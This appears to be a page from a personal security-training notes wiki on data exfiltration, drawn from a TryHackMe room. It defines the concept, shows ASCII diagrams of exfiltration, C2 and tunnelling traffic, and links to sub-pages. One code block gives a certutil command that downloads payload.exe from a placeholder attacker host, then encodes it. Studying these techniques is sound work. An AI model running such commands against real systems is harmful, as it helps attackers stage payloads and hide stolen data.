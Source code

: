 # Data Exfiltration Defined

This article will attempt to define Data Exfiltration and link futher articles to concepts and methods related to the general concept of Data Exfiltration. Data Exfiltration is non-tradition approach for copying and transferring data from a compromised system to a attacker controlled machine. The means for which the Data is Exfiltrated is delibrately obsucated by trying to emulate normal network activity. For regular file transfers see [[File-Transfers]], [[Linux-File-Transfers]] and [[Windows-File-Transfers]]


## Introduction

Data Exfiltration is is a post-compromise process and ultimate stage of [[Lockhead-Martin-Cyber-Kill-Chain]], that the act of taking an unauthorized copy of sensitive data and moving it from the inside of an organization's network to the outside. The term Data Exfiltration also refer the methods of evasion and stealth used to evade security and hide malicious activities. The Data that is exfiltrated is valuable in some way. Other than to steal data the use cases also include C2 communications(see [[Introduction-To-Command-And-Control-Frameworks]]) and tunneling - see [[Port-Redirection-And-Tunnelling]]


#### Tradition Data Exfiltration Diagram

All traffic is only one direction:
```
# Data Exfiltration
Attacker -> Attack Server <- <- Target Network Security <- Target Network Data Stores
							<- - - - - - - - DATA  
```

#### C2 Communication Diagram

C2 frameworks provides standard and non-traditional protocols to send commands and recieve responses from establish a two way communication channel between Attacker and C2 Beacon.
```
# C2 Communication
						  <- <- Outbound   			    <- <- Outbound
Attacker -> Attack Server -- -- Target Network Security -- C2 Beacon on Target Network 
						  -> -> Inbound					-> -> Inbound
```

#### Tunneling Diagram

Attacker uses data exfiltration technique to establish a communication channel acting like a tunnel to between a victim and attacker's machine to allow attack access the entire network.
```
# Tunneling
	___Represents_the_Attacker's_communication_really_it's_going_through_tunnel___
	|                                                                             |
	|					  <- <- Tunnel   			    <- <- Tunnel              |
Attacker -> Attack Server -- -- Target Network Security -- C2 Beacon on Target Network 
						  -> -> Tunnel					-> -> Tunnel
```

## Methods of Obsucation

#### Encoding
Certutil can both download and encode
```powershell
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe
certutil -encode payload.exe Encoded-payload.txt
```


#### Archiving

## Data Exfiltration
[[Data-Exfiltration-Over-TCP-Sockets]]
[[Data-Exfiltration-Over-SSH]]
[[Data-Exfiltration-Over-HTTP-and-HTTPS]]
[[Data-Exfiltration-Over-ICMP]]




## References

[THM Data Exfiltration](https://tryhackme.com/room/dataxexfilt)